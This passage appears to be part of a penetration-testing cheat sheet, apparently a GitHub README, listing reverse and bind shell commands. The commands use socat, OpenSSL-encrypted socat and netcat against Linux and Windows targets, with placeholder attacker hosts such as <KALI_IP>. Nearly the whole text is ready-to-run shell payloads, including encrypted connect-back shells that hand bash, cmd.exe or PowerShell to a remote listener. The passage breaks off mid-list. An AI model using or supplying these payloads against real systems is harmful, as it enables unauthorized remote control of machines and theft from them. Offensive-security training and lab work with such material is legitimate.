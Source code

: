 ```bash
C:\\Windows\temp\socat.exe TCP:<KALI_IP>:<PORT> EXEC:powershell.exe,pipes


#====================================================================
# B) OPENSSL (Encrypted) SHELLS
#====================================================================

#--------------------------------------------------------------------
# ATTACKER: One-Time Setup (Generate Certificate)
#--------------------------------------------------------------------
# Generate key and cert (fill info randomly or leave blank)
openssl req -x509 -newkey rsa:2048 -keyout shell.key -out shell.crt -days 365 -nodes -batch -subj "/"
# Combine into a single PEM file for socat
cat shell.key shell.crt > shell.pem

#--------------------------------------------------------------------
# LINUX TARGET (Encrypted Stable TTY Shell)
#--------------------------------------------------------------------

# ATTACKER (Listen):
socat FILE:`tty`,raw,echo=0 OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 

# LINUX TARGET (Connect Back):
# (Upload socat first, same as standard shell)
/tmp/socat EXEC:'bash -li',pty,stderr,setsid,sigint,sane OPENSSL:<KALI_IP>:<PORT>,verify=0 

#--------------------------------------------------------------------
# WINDOWS TARGET (Encrypted Simple Shell)
#--------------------------------------------------------------------

# ATTACKER (Listen):
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -

# WINDOWS TARGET (Connect Back):
# (Upload socat.exe first, same as standard shell)
C:\\Windows\temp\socat.exe EXEC:powershell.exe,pipes OPENSSL:<KALI_IP>:<PORT>,verify=0
```

## 🐚 Netcat and PowerShell shells

```bash
# === REVERSE SHELL ===

# ATTACKER (Listen):
nc -lvnp <PORT>

# LINUX TARGET (Connect Back):
nc <ATTACKER_IP> <PORT> -e /bin/bash

# WINDOWS TARGET (Connect Back):
# /usr/share/windows-resources/binaries/nc.exe
nc.exe <ATTACKER_IP> <PORT> -e cmd.exe

# === BIND SHELL ===

# LINUX TARGET (Listen):
nc -lvnp <PORT> -e /bin/bash

# WINDOWS TARGET (Listen):
nc.exe -lvnp <PORT> -e cmd.exe

# ATTACKER (Connect):
```